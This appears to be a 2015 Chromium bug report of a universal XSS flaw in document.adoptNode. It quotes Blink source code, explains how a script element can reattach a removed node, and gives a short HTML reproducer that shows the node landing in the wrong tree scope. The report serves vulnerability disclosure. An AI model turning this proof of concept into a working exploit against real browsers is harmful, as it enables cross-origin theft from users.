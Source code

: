 # Security: Universal XSS using document.adoptNode

### Reported by <mailto:marius.mlynski@gmail.com>, Oct 8 2015

### VULNERABILITY DETAILS

From `/third_party/WebKit/Source/core/dom/Document.cpp`:

```cpp
PassRefPtrWillBeRawPtr<Node> Document::adoptNode(PassRefPtrWillBeRawPtr<Node> source, ExceptionState& exceptionState)
{
    EventQueueScope scope;

    switch (source->nodeType()) {
(...)
    default:
(...)
        if (source->parentNode()) {
            source->parentNode()->removeChild(source.get(), exceptionState);
            if (exceptionState.hadException())
                return nullptr;
        }
    }

    this->adoptIfNeeded(*source);

    return source;
}
```

This code expects that `removeChild(source.get(), exceptionState)` will either detach the source node or throw an exception if it can't be done. However, the child can be reattached immediately after removal (through `HTMLScriptElement::childrenChanged`) if the parent node is a pending script whose type has recently changed to valid. In such case, `ContainerNode::removeChild` doesn't throw any exception. Consequently, the adopted node will end up in a wrong tree scope, which may lead to GC crashes and inconsistent frame states.

#### VERSION

Chrome 45.0.2454.101 (Stable)
Chrome 46.0.2490.64 (Beta)
Chrome 47.0.2526.5 (Dev)
Chromium 48.0.2531.0 (Release build compiled today)

#### REPRODUCTION CASE

```html
<!DOCTYPE html>
<html>

<body>
  <script>
    var s = document.createElement('script');
    s.type = '0';
    s.textContent = 's.appendChild(x)';
    document.documentElement.appendChild(s);
    var x = document.createElement('x');
    s.appendChild(x);
    s.type = '';

    var i = document.documentElement.appendChild(document.createElement('iframe'));
    i.contentDocument.adoptNode(x);

    alert(x.ownerDocument === x.parentNode.ownerDocument);
  </script>
</body>

</html>

```

Link: https://bugs.chromium.org/p/chromium/issues/detail?id=541206

